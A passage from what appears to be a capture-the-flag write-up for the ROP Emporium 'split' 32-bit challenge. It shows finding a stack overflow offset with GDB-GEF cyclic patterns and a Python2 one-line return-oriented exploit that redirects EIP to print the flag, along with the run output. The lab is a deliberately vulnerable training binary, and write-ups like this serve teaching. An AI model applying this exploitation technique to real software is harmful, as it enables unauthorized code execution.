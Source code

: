 ### Step 3: Finding the Offset
Using `GDB-GEF`, I created a cyclic pattern string using `pattern create 100`. I then ran the binary and entered the pattern string when prompted for input.

The program crashed (**Segmentation Fault**) and `GDB-GEF` presented me with all of the crash data.

![GDB-GEF Segmentation Fault Overwritten EIP](/assets/images/ROP_Emporium/split/finding_the_offset.png)

From this, I saw that the EIP was overwritten with the value `0x6161616c`. Using the command `pattern offset 0x6161616c`, it automatically calculated the offset for me, which was **44**.

### Step 4: Writing the Exploit
I wrote 3 exploits. A one-line exploit in Python2, a one-line exploit in Python3, and a fully fledged `pwntools` exploit.

#### Python2 One-Line Exploit
- Print 44 bytes
- Print the address of the usefulFunction() function
- Print the address of the "/bin/cat flag.txt" string

`python2 -c 'print "A"*44 + "\x1a\x86\x04\x08" + "\x30\xa0\x04\x08"'`
```
$ python2 -c 'print "A"*44 + "\x1a\x86\x04\x08" + "\x30\xa0\x04\x08"' | ./split32

split by ROP Emporium
x86

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
```
